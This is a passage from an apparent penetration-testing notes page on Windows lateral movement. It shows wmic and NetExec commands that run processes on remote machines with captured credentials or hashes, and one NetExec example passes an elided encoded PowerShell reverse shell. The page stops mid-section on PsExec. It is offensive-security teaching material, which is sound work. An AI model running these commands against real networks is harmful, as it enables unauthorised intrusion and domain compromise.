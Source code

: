 ```yaml
---
description: Moving between computers by re-using accounts to get more access
---
```


# Lateral Movement

## # Related Pages

Network tunneling using [#ligolo-ng](../linux/linux-privilege-escalation/networking.md#ligolo-ng "mention").

## Protocols

Some protocols allow running commands as a user on the computer when having valid credentials. This is useful because often different computers will contain different new secrets to escalate further into the domain, and eventually reach the Domain Admin.

### WMI (135)

The Windows Management Instrumentation (WMI) protocol works over port 135 and is used commonly for automating tasks. This is also useful for lateral movement, however, because it allows us to remotely run commands on another computer as a user:

<pre class="language-powershell"><code class="lang-powershell"><strong>C:\> wmic /node:$IP /user:$USERNAME /password:$PASSWORD process call create "calc"
</strong>Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 742;
        ReturnValue = 0;
};
</code></pre>

The above method needs to be done from a PowerShell console on an already-compromised machine, but [NetExec](https://github.com/Pennyw0rth/NetExec) can also send commands through this protocol, and even pass the hash. Simply use the syntax you're used to with `-u` and `-p`, and use `-x` to specify the command to execute (such as a reverse shell):

```bash
nxc wmi $IP -u $USERNAME -p $PASSWORD -x 'powershell -e ...'
```

### SMB - PsExec (139, 445)

[PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) is part of Microsoft's Sysinternals suite and is made to easily run commands on a remote machine through an interactive console. The `.exe` provided implements the following steps on SMB:

